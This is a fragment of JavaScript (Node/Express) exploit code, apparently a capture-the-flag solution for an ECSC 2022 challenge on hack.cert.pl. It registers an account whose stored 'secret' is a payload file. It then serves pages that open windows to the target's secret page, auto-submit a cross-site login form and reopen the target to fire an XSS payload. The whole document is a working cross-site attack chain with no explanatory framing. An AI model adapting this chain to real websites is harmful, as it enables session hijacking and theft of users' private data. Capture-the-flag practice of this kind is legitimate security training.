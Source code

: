 ```python
    next();
});

const u = 'asdf_' + Date.now();

(async function() {
    const data = new URLSearchParams();
    data.append('username', u);
    data.append('password', u);
    data.append('secret', fs.readFileSync('payload.html').toString());
    const r = await fetch('https://monster.ecsc22.hack.cert.pl/register', { method: 'post', body: data });
    console.log('registered as '+u);
})();

app.get('/', (req, res) => {
    res.setHeader('Content-Type', 'text/html');
    res.send(`
    <script>
    window.originalWindow = window.open('https://secret.monster.ecsc22.hack.cert.pl/secret', 'secret');
    window.open('/2');


    setTimeout(() => {
        window.location.href = 'https://secret.monster.ecsc22.hack.cert.pl/secret#3';
    }, 2000);

    </script>
    `);
});

app.get('/2', (req, res) => {
    res.setHeader('Content-Type', 'text/html');
    res.send(`
    <script>
    loginWindow = window.open('/login');
    setTimeout(() => {
        loginWindow.document.getElementById('f').submit();
    }, 500);
    setTimeout(() => {
        xssWindow = window.open('https://secret.monster.ecsc22.hack.cert.pl/secret');
    }, 1000);
    </script>
    `);
});

app.get('/login', (req, res) => {
    res.setHeader('Content-Type', 'text/html');
    res.send(`
    login
    <form id='f' method='post' action='https://monster.ecsc22.hack.cert.pl'>
    <input name='username' value='${u}'>
    <input name='password' value='${u}'>
    <input type=submit />
    </form>
    `);
});

app.post('/', (req, res) => {
    console.log('post');
})

```